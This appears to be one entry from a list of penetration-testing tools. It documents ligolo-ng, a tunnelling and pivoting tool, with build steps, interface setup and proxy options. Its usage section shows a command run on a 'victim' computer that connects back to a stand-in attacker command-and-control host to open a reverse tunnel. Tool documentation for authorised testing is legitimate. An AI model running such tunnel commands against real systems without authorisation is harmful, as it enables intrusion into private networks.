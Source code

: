 ### [🔙](#tool-list)[ligolo-ng](https://github.com/nicocha30/ligolo-ng)

Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).

Instead of using a SOCKS proxy or TCP/UDP forwarders, Ligolo-ng creates a userland network stack using [Gvisor](https://gvisor.dev/).

When running the relay/proxy server, a tun interface is used, packets sent to this interface are translated, and then transmitted to the agent remote network.

**Install: (Download)** 

Precompiled binaries (Windows/Linux/macOS) are available on the [Release page](https://github.com/nicocha30/ligolo-ng/releases).

**Install: (Build)** 

*Building ligolo-ng (Go >= 1.17 is required):*

```bash
go build -o agent cmd/agent/main.go
go build -o proxy cmd/proxy/main.go

# Build for Windows
GOOS=windows go build -o agent.exe cmd/agent/main.go
GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```

**Setup: (Linux)** 

```bash
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
```

**Setup: (Windows)** 

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

**Setup: (Proxy server)** 

```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```

**Usage:**

*Start the agent on your target (victim) computer (no privileges are required!):*

```bash
./agent -connect attacker_c2_server.com:11601
```

A session should appear on the proxy server.

```
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```
